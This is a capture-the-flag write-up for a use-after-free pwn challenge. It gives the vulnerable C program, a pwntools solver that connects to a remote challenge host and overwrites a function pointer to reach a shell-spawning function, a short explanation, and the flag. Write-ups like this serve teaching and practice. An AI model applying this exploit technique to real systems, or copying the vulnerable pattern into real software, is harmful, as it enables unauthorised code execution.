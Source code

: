 ![image](https://github.com/user-attachments/assets/9b7b385c-d03e-40c7-a0a7-5a0d8d1b3b6b)

Here is the source code :
```Python
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdint.h>


typedef struct string {
    uint64_t length;
    char *data;
    void (*print_string) (char*);
}string;

void hacked() {
    
    system("/bin/sh");  
}

void print_string(char* s){
    printf("%s", s);
}

int main() {
    string *s = malloc(sizeof(string));  
    if (s == NULL) {
        perror("malloc failed");
        return 1;
    }

    puts("welcome patrick give the string length: ");
    scanf("%u", &s->length);

    s->data = malloc(s->length + 1);
    if (s->data == NULL) {
        perror("malloc failed");
        return 1;
    }
    memset(s->data, 0, s->length + 1);

    puts("Enter something");
    read(0, s->data, s->length);
    s->print_string = print_string;
    free(s->data);  
    free(s);        

    char *s2 = malloc(24);  
    if (s2 == NULL) {
        perror("malloc failed");
        return 1;
    }

    puts("Enter more");
    read(0, s2, 24);

    printf("well? this is your thing\n");
    s->print_string(s->data);

    free(s2);
    return 0;
}
```

This code contains a Use-After-Free (UAF) vulnerability, which can lead to arbitrary code execution.

To exploit this Use-After-Free (UAF) vulnerability and spawn a shell via the hacked() function, follow these solver :

```Python
from pwn import *
p = remote("51.77.140.155", 1403)
p.recvuntil("give the string length:")
p.sendline("100")
p.recvuntil("Enter something")
p.sendline("dummy note")
p.recvuntil("Enter more")
payload = b"A" * 16 + p64(0x00401289) 
p.sendline(payload)
p.interactive()
```

The exploit code leverages the Use-After-Free (UAF) vulnerability by first allocating and freeing the string struct (s), then reoccupying its memory with a new buffer (s2). By sending a payload of 16 filler bytes followed by the address of the hacked() function (0x00401289), it overwrites the print_string function pointer in the reused s struct. When the program later calls s->print_string(), it executes hacked() instead, spawning a shell.

![image](https://github.com/user-attachments/assets/2f1f1d69-3ecf-442f-bc52-fee78ae80723)

FLAG:Securinets{U4F_D3TECT3D}





